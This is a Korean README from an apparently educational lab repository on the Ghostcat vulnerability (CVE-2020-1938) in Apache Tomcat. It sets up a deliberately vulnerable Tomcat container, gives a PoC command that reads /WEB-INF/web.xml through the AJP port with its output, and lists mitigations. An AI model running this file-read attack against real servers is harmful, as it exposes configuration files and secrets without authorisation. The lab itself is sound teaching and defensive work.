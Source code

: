 # CVE-2020-1938 - Ghostcat (Apache Tomcat AJP File Read Vulnerability)

## 개요

**CVE-2020-1938**, 일명 **Ghostcat**은 Apache Tomcat의 AJP 커넥터를 악용해 인증 없이 Tomcat 내부의 민감 파일을 읽을 수 있는 취약점입니다.  
AJP 포트가 외부에 노출되어 있는 경우, 공격자는 `/WEB-INF/web.xml` 등 서버 내부 파일을 사용자 입력값 검증없이 열람 및 실행이 가능합니다.

- **취약점 ID:** CVE-2020-1938  
- **공개일:** 2020-02-20 
- **취약점 유형:** 정보 유출 (Information Disclosure)  
- **PoC 가능 여부:** 가능 

---

## 환경 구성 방법

### 1. 실행 환경 (Docker)

```bash
git clone https://github.com/kimyeeun21/kr-vulhub.git
cd kr-vulhub/CVE-2020-1938
docker compose up -d  명령어로 Apache Tomcat 실행
```

- 브라우저에서 `http://localhost:8080` 접속 → Tomcat 정상 구동 확인
- 컨테이너는 포트 8080(HTTP), 8009(AJP)을 엽니다

![브라우저 실행 결과](./Tomcat.png)
---

## PoC 실행 방법

### 1. 사전 준비

- Python 3.12.9 설치

### 2. 공격 명령어

```bash
python poc.py 127.0.0.1 -p 8009 -f /WEB-INF/web.xml
```

### 3. PoC 성공 결과

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         version="4.0" metadata-complete="true">
  <display-name>Welcome to Tomcat</display-name>
  <description>Welcome to Tomcat</description>
</web-app>
```

> Tomcat의 내부 설정 파일(web.xml)을 성공적으로 열람할 수 있었습니다.

---

## PoC 환경 구성 파일

### docker-compose.yml

```yaml
version: '2'
services:
  tomcat:
    image: tomcat:9.0.30
    ports:
      - "8080:8080"
      - "8009:8009"
```

### poc.py

- Vulhub의 [PoC 코드](https://github.com/vulhub/vulhub/blob/master/tomcat/CVE-2020-1938/poc.py)를 사용
- Python 3.11 이상 호환을 위해 `bufsize` 제거, `bytes.decode()`로 출력 처리

---

## 대응 방안

| 조치              | 설명                                                    |
|-------------------|---------------------------------------------------------|
| AJP 비활성화   | `server.xml`에서 AJP 커넥터 제거 또는 주석 처리        |
| 방화벽 설정    | 8009 포트를 외부에서 접근하지 못하도록 방화벽 차단     |
| 버전 업그레이드 | Apache Tomcat을 9.0.31 이상으로 업그레이드              |

### `server.xml` 예시 (AJP 주석 처리)

Tomcat 설정 파일인 `server.xml`에서 AJP 포트를 주석 처리하면 외부에서 해당 포트 접근이 차단됩니다.

```xml
<!--
<Connector port="8009" protocol="AJP/1.3" redirectPort="8443" />
-->
```

---

## 📎 참고 자료

- [CVE-2020-1938 (NVD)](https://nvd.nist.gov/vuln/detail/CVE-2020-1938)
- [Tenable - Ghostcat 상세 분석](https://www.tenable.com/blog/ghostcat-vulnerability-discovered-in-apache-tomcat-cve-2020-1938)
- [Vulhub - CVE 환경](https://github.com/vulhub/vulhub/tree/master/tomcat/CVE-2020-1938)

---

## PoC 결과 캡처

![PoC 실행 결과](./xml_result.png)

---

## 🔗 제출 정보

- **GitHub Repo:** [https://github.com/kimyeeun21/kr-vulhub](https://github.com/kimyeeun21/kr-vulhub)  
- **Pull Request:** [https://github.com/kimyeeun21/kr-vulhub/tree/main/CVE-2020-1938]